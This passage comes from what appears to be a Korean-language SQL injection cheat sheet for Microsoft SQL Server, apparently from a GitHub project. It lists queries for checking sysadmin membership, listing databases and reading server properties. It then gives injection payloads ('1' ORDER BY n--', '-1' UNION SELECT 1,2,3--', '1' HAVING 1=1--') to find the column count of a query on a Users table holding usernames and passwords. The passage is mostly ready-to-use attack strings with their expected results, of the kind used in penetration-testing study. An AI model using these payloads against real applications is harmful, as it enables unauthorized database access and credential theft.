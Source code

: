 사용자가 관리자인지 확인하십시오 :<br>
`SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END);`<br><br><br>


## (5) 데이터베이스 이름
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/0a77393f-3fa0-494f-8b55-0e7443bcc915)
<br><br>
예 :<br>
`SELECT DB_NAME(5);`<br>
`SELECT name FROM master..sysdatabases;`<br><br><br>



## (6) 서버 호스트 이름
![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/0b7a9612-d675-4a05-a4ad-d0f3dd191e50)
<br><br>
예 :<br>
`SELECT SERVERPROPERTY('productversion'), SERVERPROPERTY('productlevel'), SERVERPROPERTY('edition');`<br><br>

노트 :<br>
SERVERPROPERTY() 는 MSSQL 2005 이상에서 사용할 수 있음.<br><br><br>




## (7) 테이블과 컬럼

**① 컬럼 수 결정**<br><br>

`ORDER BY n+1;`<br><br>
예 :<br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '1';`<br>&nbsp;

1' ORDER BY 1--&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 2--&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 3--&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br>
1' ORDER BY 4--&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;거짓 - 쿼리는 3 개의 컬럼만 사용함.<br>
-1' UNION SELECT 1,2,3--&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;참<br><br>

노트 :<br>
거짓 결과값이 출력될 때까지 번호를 계속 증가시킴.<br><br>

다음은 현재 쿼리에서 컬럼을 가져오는데 사용할 수 있음.<br><br>

`GROUP BY / HAVING`<br><br>

예 :<br>
`주어진 쿼리 SELECT username, password, permission FROM Users WHERE id = '1';`<br><br>

`1' HAVING 1=1--`<br>
`'Users.username' 컬럼은 집계 함수 또는 GROUP BY 절에 포함되어 있지 않기 때문에 선택 목록에서 유효하지 않음.`<br><br>
